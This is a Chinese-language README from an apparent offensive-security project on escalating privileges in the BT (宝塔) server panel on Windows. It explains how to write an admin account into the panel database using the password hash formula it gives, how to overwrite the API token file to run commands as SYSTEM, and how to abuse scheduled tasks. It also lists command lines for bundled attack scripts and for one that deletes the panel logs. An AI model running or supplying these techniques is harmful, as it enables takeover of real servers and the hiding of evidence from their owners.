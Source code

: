# 宝塔面板Windows提权方法

本项目整理一些宝塔特性，可以在无漏洞的情况下利用这些特性来增加提权的机会。


Table of Contents
=================

   * [宝塔面板Windows提权方法](#宝塔面板windows提权方法)
      * [写数据库提权](#写数据库提权)
      * [API提权](#api提权)
      * [计划任务提权](#计划任务提权)
   * [自动化测试](#自动化测试)



## 写数据库提权

宝塔面板在2008安装的时候默认www用户是可以对宝塔面板的数据库有完全控制权限的：

```bash
powershell -Command "get-acl C:\BtSoft\panel\data\default.db | format-list"
```

![](imgs/01.png)

对于这种情况可以直接往数据库写一个面板的账号直接获取到面板权限，而在2016安装默认是User权限可读不可写

![](imgs/02.png)

这种情况可以从里面读取一些敏感信息，比如mysql的root密码，而一般这个配置的不会只有这个文件可读，可以使用其他方法。



盐： `[A-Za-z0-9]{12}`

密码： `md5(md5(md5(password) + '_bt.cn') + salt)`

可以直接使用`bt_panel_script.py`，脚本会自动新建一个账号。



## API提权

宝塔面板支持API操作的，token在`C:\BtSoft\panel\config\api.json`，用这个方法提权还可以无视入口校验，比如有一个**未授权访问的redis是system权限**，就可以直接往这个文件覆盖token直接接管面板，或是利用FileZilla(windows面板默认ftp软件就是FileZilla + 空密码)新建一个C盘权限的账号，也可以去修改那个文件来提权。



API Token: `md5(string)`

api.json
```json
{"open": true, "token": "API Token", "limit_addr": ["你的IP"]}
```

请求时加上(`multipart/form-data`)：

```
request_token = md5(timestamp + token)
request_time = timestamp
```

可以直接使用`bt_panel_api.py`，脚本会自动使用计划任务运行命令，如果面板原本就有配置好API了，并且IP限制127.0.0.1，那么就可以直接在服务器直接用脚本提权。





## 计划任务提权

基本上场景同API提权，可以去修改计划任务文件(比如网站备份)，默认是在凌晨1：30执行，权限也是system。



路径： `C:/BtSoft/cron/`

有些面板API会无法登陆，就只能利用计划任务来提权了，缺点是路径不固定，且执行时间也不固定。



# 自动化测试

```bash
python3 .\bt_panel_script.py
```

使用此脚本可以全自动获取宝塔相关信息，python可以直接用宝塔的，不用担心没环境。

![](imgs/03.png)

```bash
python3 .\bt_panel_api.py -g
```

这个脚本可以生成api示例，把生成的json替换到指定文件后就能提权。

![](imgs/04.png)

```bash
python3 .\bt_panel_api.py -u "http://192.168.101.5:8888/" -t "085bd64a698cf601ae472425656b2346" -c whoami
```

![](imgs/05.png)

```bash
python3 .\bt_panel_log_delete.py
```

这个脚本可以自动清理面板日志。
